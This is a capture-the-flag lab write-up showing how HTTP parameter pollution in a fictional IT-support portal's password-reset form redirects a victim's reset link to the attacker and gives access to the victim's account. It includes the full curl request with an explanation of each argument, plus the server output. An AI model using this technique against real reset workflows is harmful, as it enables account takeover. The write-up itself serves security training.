



## Exercises

### Question 1 — What is the flag from Robert's support ticket?

Before running the exploit, I needed an inbox I controlled on the Acme customer portal, so I registered a new customer account.



Signing up gave me an internal address I could receive mail at: `hacker@customer.acmeitsupport.thm`. With that in hand, I ran the parameter pollution exploit against Robert's reset request, pointing the overriding `email` parameter at my own internal address instead of `robert@acmeitsupport.thm`.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ curl 'http://10.112.172.138/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=hacker@customer.acmeitsupport.thm'

<!DOCTYPE html>
<html lang="en">
<head>
    <title>Acme IT Support - Customer Login</title>
—SNIP—
            <div class="navbar-header">
—SNIP—
<div class="container" style="padding-top:60px">
    <h1 class="text-center">Acme IT Support</h1>
    <h2 class="text-center">Reset Password</h2>
    <div class="row">
        <div class="col-md-4 col-md-offset-4">
                        <div class="alert alert-success text-center">
                <p>We'll send you a reset email to <strong>hacker@customer.acmeitsupport.thm</strong></p>
            </div>
                    </div>
    </div>
</div>
—SNIP—
</html>
```

**Breakdown:**

- `curl` sends the HTTP request from the command line
- `'http://10.112.172.138/customers/reset?email=robert@acmeitsupport.thm'` is the target URL, carrying Robert's real email address as the query string parameter that the application uses to identify the account
- `-H 'Content-Type: application/x-www-form-urlencoded'` sets the Content-Type header, so the server parses the body as form data
- `-d 'username=robert&email=hacker@customer.acmeitsupport.thm'` supplies the POST body: `username=robert` identifies the account to step two of the workflow, and the second `email` parameter is the pollution itself, overriding the query-string value when the server reads `$_REQUEST`

The success message confirmed the override worked: `We'll send you a reset email to hacker@customer.acmeitsupport.thm`, rather than Robert's real address.

The reset email arrived as a new support ticket on my own customer account rather than an actual email, which matched how the portal routes internal mail.



The ticket contents read:

```
We've received, a request to reset your password, please visit http://10.112.172.138/customers/reset/0fce595a674d4a04dc8a5dd134b4bc28 to automatically login, and then you can reset your password from the 'Your Account' page.
```

Following that link authenticated the browser as Robert and landed on his support tickets, where the first ticket held the flag.



```
Please don't tell anyone this! —REDACTED—
```

**Answer:** `—REDACTED—`